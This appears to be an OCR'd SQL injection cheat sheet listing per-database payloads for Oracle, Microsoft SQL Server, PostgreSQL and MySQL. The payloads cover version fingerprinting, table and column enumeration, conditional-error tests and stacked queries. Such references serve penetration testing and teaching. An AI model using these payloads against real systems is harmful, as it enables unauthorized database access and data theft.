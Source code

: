 You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

|Database|Exploit|
|---|---|
|Oracle|`SELECT banner FROM v$version   SELECT version FROM v$instance   `|
|Microsoft|`SELECT @@version`|
|PostgreSQL|`SELECT version()`|
|MySQL|`SELECT @@version`|

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

|Database|Exploit|
|---|---|
|Oracle|`SELECT * FROM all_tables   SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`|
|Microsoft|`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`|
|PostgreSQL|`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`|
|MySQL|`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`|

## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

|Database|Exploit|
|---|---|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`|
|Microsoft|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`|
|PostgreSQL|`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`|

## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

|Database|Exploit|
|---|---|
|Oracle|`Does not support batched queries.`|
|Microsoft|`QUERY-1-HERE; QUERY-2-HERE`|
|PostgreSQL|`QUERY-1-HERE; QUERY-2-HERE`|
|MySQL|`QUERY-1-HERE; QUERY-2-HERE`|
